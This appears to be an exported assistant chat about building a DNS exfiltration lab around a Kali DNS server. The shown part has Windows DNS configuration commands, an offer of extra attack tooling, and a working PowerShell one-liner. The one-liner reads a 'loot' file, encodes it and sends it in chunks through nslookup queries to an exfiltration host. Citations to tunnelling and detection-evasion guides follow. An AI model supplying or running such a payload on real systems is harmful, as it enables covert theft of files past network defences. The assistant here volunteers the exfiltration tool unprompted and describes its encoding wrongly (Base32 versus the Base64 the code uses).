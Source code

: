 If your Kali DNS server is up and reachable, it will return `127.0.0.1` or whatever fake A record you set.

---

### 🔧 Optional: Set via Command Line

```powershell
Set-DnsClientServerAddress -InterfaceAlias "Ethernet" -ServerAddresses "10.0.0.5"
```

Or via legacy CMD:

```cmd
netsh interface ip set dns "Ethernet" static 10.0.0.5
```

---

## ✅ Summary

| Task                      | Command                                 |
| ------------------------- | --------------------------------------- |
| Prepare Kali setup script | `setup.sh` (above)                      |
| Download Python packages  | `pip download -d offline-pkgs/ dnslib`  |
| Set DNS on Windows        | Use GUI or `netsh` / PowerShell         |
| Test config               | `nslookup domain` from client to server |

---

Would you like me to also provide:

* A one-liner PowerShell client payload to test DNS exfil?
* A snapshot `.tar.gz` of the full toolkit with offline packages?

Let me know how you'd like to deliver this into your lab.

---

Absolutely! Here's a compact, **PowerShell one-liner payload** that reads a file (e.g., `C:\loot.txt`), Base32-encodes it, splits it into chunks, and exfiltrates it via DNS queries to your internal DNS exfiltration server (e.g., `10.0.0.5` handling `exfil.lab`).

---

## 🟩 PowerShell DNS Exfil One-Liner

```powershell
$D="exfil.lab";$F="C:\loot.txt";$H="$env:COMPUTERNAME";$C=[Convert]::ToBase64String([IO.File]::ReadAllBytes($F)).ToCharArray();$I=0;while($C.Count){$X=($C[0..49] -join '');$C=$C[50..($C.Count-1)];nslookup "$H.$I.$X.$D" 10.0.0.5;$I++}
```

---


[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"